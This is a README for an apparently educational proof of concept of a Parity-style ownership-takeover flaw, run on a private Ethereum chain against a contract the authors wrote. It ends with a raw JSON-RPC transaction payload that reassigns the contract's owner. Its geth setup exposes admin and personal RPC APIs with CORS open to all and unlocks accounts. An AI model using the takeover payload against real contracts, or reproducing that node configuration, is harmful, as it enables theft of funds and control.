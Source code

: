 # README

POC to showcase the HackParity Vulnerability in the ethereum blockchain

### I Prerequisite
If your node is supposed to be mining, you need to have at least 4GB of RAM of the local machine running your node

### II Set up your Private Blochain

Correctly configure your `genesis.json` block such as:
```javascript
{
    "config":{
        "chainId":15,
        "homesteadBlock":0,
        "eip155Block":0,
        "eip158Block":0
        },
    "difficulty": "0x400",
    "gasLimit":  "0x80000000",
    "alloc": {
         "d19167868388e320f09d5de3f8d5927f78bc6ce4":{"balance":"3000000"}
    },
    "nonce": "0x0000042",
    "timestamp": "0",
    "parentHash": "0x0000000000000000000000000000000000000000000000000000000000000000",
    "mixhash": "0x0000000000000000000000000000000000000000000000000000000000000000",
    "coinbase": "0x3333333333333333333333333333333333333333"
}
```

Init your blockchain : 
```shell
geth --datadir data/db/ init genesis.json
```

The information of the blockchain will be in `data/db/`. Everytime you start your blockchain, it will read the information needed there. Unlike what's commonly thought, the `networkid` is just a mean of connecting nodes between them, the data comes from that `--datadir` option.

We will then need to create an account usable and credit it. 

Launch your private blockchain
```shell
geth --nodiscover --datadir data/db --networkid 15 --rpc --rpcapi personal,web3,eth,accounts,admin,miner,net,txpool --identity block1 --rpccorsdomain "*" --rpcaddr <ip> --mine --gasprice "1"
```

Use the javascript console to interact with it :

```shell
geth attach <datadir>/geth.ipc
```

In the ethereum javascript console : 
```javascript
personal.newAccount("yourPassword")
```

Take the address of your new account and paste it into your `genesis.json` file, in the `alloc` property, instead of the `d19167868388e320f09d5de3f8d5927f78bc6ce4` address.

You now have an account that's ready to be used, but it still needs to get credited some money.
For that, we will re-init our blockchain.
Exit your ethereum javascript console and do the following :

```shell
$ cd <datadir>
$ rm -rf geth/
```

This allows you to destroy any information on the blockchain but the accounts created.

Init your blockchain again, this time it will credit your account.

```shell
geth --datadir data/db/ init genesis.json
```

Launch it again
```shell
geth --nodiscover --datadir data/db --networkid 15 --rpc --rpcapi personal,web3,eth,accounts,admin,miner,net,txpool --identity block1 --rpccorsdomain "*" --rpcaddr <ip> --mine --gasprice "1"
```

You are ready to go !

### III Interact with a smart contract using Solidity Browser

Start by pasting your smart contract in the code edition window.

If your code has no warnings you are ready to go.

In the top-right corner, select ```Run``` then ```Environment```, ```Web3Provider```. Type the url and port towards your ethereum node.

Be careful though, you might need to connect to the solidity-browser interface via http, and not https !


Once the connection is made, you should see your blockchain accounts in the ```Accounts``` list. Select the account you want to pay for the mining and click on ```Create```.

The console will indicate when the mining is successful, or if you need to unlock that account.
If you need to unlock your account, go to your geth console : 

```bash
geth attach $datadir/geth.ipc
``` 

on your node, and type 

```javascript
personal.unlockAccount('youraccount', 'password', duration)
```

Duration should be the time of unlocking in second. You can then go back to solidity-browser, and create your smart contract for good.
When it is mined, an interface to interact with it should appear on the bottom-right.

### IV HackParity Vulnerability

To exploit the HackParity-like smart contract we developed :

Copy/Paste it in a fresh window of the Smart Contract Window of our interface.

On the Run tab, select ```TestLibrary```, mine it.

Paste the address of the library in the ```_library variable``` of the smart contract ```Vulnerable Contract```. 

Mine your ```VulnerableContract```.

Your contract now has an owner which is the person who sent the transaction which created the contract.
To hack it and change its owner, format a transaction like following :


```json
{"jsonrpc":"2.0",
"method":"eth_sendTransaction",
"params":
[
    {"from": "<anyAddressWithMoney>", 
    "to": "<smartContractAddress>", 
    "data": "0x19ab453c000000000000000000000000<newOwnerAddress>", 
    "gas":"0x5ee0d",
    "gasprice":"0x1"}],
"id":"<any int>"}
```

Care with the gas. A gas estimate will only compute how much gas you need to send the transaction, not how much you need to execute the smart contract function. 300000 gas is a good start.
Be careful, parameters must be sent in hexa.    

